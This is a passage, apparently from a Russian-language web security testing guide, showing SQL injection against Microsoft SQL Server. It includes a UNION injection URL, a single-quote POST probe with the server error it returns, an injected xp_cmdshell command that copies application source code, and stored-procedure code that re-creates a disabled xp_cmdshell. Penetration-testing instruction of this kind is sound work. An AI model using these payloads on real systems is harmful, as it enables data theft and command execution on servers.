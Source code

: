 `https://vulnerable.web.app/list_report.aspx?number=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20users;--`

### Пример 3: Тестирование в запросе POST

SQL Injection, HTTP POST Content: `email=%27&whichSubmit=submit&submit.x=0&submit.y=0`

Полный пример поста (`https://vulnerable.web.app/forgotpass.asp`):

```txt
POST /forgotpass.asp HTTP/1.1
Host: vulnerable.web.app
[...]
Referer: http://vulnerable.web.app/forgotpass.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

email=%27&whichSubmit=submit&submit.x=0&submit.y=0
```

Сообщение об ошибке получено при `'` (single quote) символ вводится в поле электронной почты:

```txt
Microsoft OLE DB Provider for SQL Server error '80040e14'
Unclosed quotation mark before the character string '' '.
/forgotpass.asp, line 15
```

### Пример 4: Еще один (полезный) пример GET

Получение исходного кода приложения

`a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\login.aspx c:\inetpub\wwwroot\login.txt';--`

### Example 5: Custom `xp_cmdshell`

Все книги и статьи, описывающие лучшие практики безопасности для SQL Server, рекомендуют отключить `xp_cmdshell` в SQL Server 2000 (в SQL Server 2005 он отключен по умолчанию). Однако, если у нас есть права sysadmin (условно или путем грубого заполнения пароля sysadmin, см. Ниже), мы часто можем обойти это ограничение.

На SQL Server 2000 :

- Если `xp_cmdshell` был отключен с `sp_dropextendproc`, мы можем просто ввести следующий код:

`sp_addextendedproc 'xp_cmdshell','xp_log70.dll'`

- Если предыдущий код не работает, это означает, что `xp_log70.dll` был перемещен или удален. В этом случае нам нужно ввести следующий код:

```sql
CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait int = 0) AS
    DECLARE @result int, @OLEResult int, @RunResult int
    DECLARE @ShellID int
    EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID OUT
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, @cmd, 0, @Wait
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OADestroy @ShellID
    return @result
```
